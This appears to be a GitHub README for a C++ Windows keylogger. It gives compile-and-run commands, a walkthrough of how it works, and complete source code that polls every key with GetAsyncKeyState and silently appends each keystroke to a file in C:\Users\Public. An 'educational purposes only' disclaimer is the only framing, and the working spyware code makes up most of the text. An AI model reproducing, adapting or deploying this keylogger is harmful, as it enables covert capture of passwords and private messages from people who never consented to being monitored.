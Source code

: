 # Keylogger

This is a simple keylogger written in C++ that logs keystrokes to a file.

## Disclaimer

**This software is intended for educational purposes only. Unauthorized use of this software for malicious activities, such as spying on users or logging sensitive information without consent, is illegal and unethical. Use it responsibly and ensure you have permission to log keystrokes on any system.**

## Features

- Logs keystrokes to a file located at `C:\Users\Public\keylogger.txt`.
- Captures regular keys, special keys (Enter, Backspace, Tab), and handles Shift key for uppercase letters.

## Requirements

- Windows operating system.
- Visual Studio or any other C++ compiler compatible with Windows API.

## Installation

1. Clone or download the repository.
2. Open the project in your preferred C++ development environment.

## Usage

1. Compile the program using your C++ compiler.
2. Run the executable. It will start logging keystrokes to `C:\Users\Public\keylogger.txt`.

### Example

```powershell
g++ -o keylogger keylogger.cpp -luser32
./keylogger
```
### How It Works
The program opens a file keylogger.txt in append mode.
It uses GetAsyncKeyState to check the state of each key.
If a key is pressed, it translates the key code to the corresponding character, considering the Shift key state.
The character is then written to the file.
The program runs in an infinite loop with a short sleep interval to prevent high CPU usage.
Key Components

### keys Function
File Handling: Opens keylogger.txt in append mode.
Key State Tracking: Uses GetAsyncKeyState to detect key presses.
Shift Key Handling: Adjusts the keyboard state to consider the Shift key.
Key Code Translation: Converts virtual key codes to characters using ToUnicode.
File Writing: Logs the characters to the file.

### main Function
Simply calls the keys function to start logging.
Code
```cpp
#include <iostream>
#include <Windows.h>
#include <WinUser.h>

using namespace std;

void keys() {
    char c;
    HANDLE hFile;
    DWORD numberofbytes;
    LPCSTR file = "C:\\Users\\Public\\keylogger.txt";

    hFile = CreateFileA(file, FILE_APPEND_DATA, 0, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);

    if (hFile == INVALID_HANDLE_VALUE) {
        cerr << "[-] Error in File Creating";
        return;
    }

    bool keyStates[256] = { false };

    while (true) {
        for (c = 8; c <= 255; c++) {
            SHORT keyState = GetAsyncKeyState(c);
            bool isKeyPressed = (keyState & 0x8000) != 0;
            if (isKeyPressed && !keyStates[(unsigned char)c]) {
                keyStates[(unsigned char)c] = true;

                // Determine if the Shift key is pressed
                bool isShiftPressed = (GetAsyncKeyState(VK_SHIFT) & 0x8000) != 0;

                // Translate virtual key code to character
                BYTE keyboardState[256];
                GetKeyboardState(keyboardState);
                if (isShiftPressed) {
                    keyboardState[VK_SHIFT] = 0x80;
                }
                else {
                    keyboardState[VK_SHIFT] = 0;
                }

                // Convert the virtual key code to a character
                WCHAR buffer[2] = { 0 };
                int result = ToUnicode(c, 0, keyboardState, buffer, 2, 0);
                char output;

                if (result > 0) {
                    output = static_cast<char>(buffer[0]);
                }
                else {
                    switch (c) {
                    case VK_RETURN:
                        output = '\n'; // Newline for Enter key
                        break;
                    case VK_BACK:
                        output = '\b'; // Backspace
                        break;
                    case VK_TAB:
                        output = '\t'; // Tab
                        break;
                    default:
                        output = '\0'; // Null character for unhandled keys
                    }
                }

                if (output != '\0') {
                    DWORD written;
                    WriteFile(hFile, &output, 1, &written, NULL);
                }
            }
            else if (!isKeyPressed) {
                keyStates[(unsigned char)c] = false;
            }
        }
        Sleep(10);  // To prevent high CPU usage
    }

    CloseHandle(hFile);
}

int main(int argc, char* argv[]) {
    keys();
    return 0;
}
```
## License
This project is licensed under the MIT License - see the LICENSE file for details.

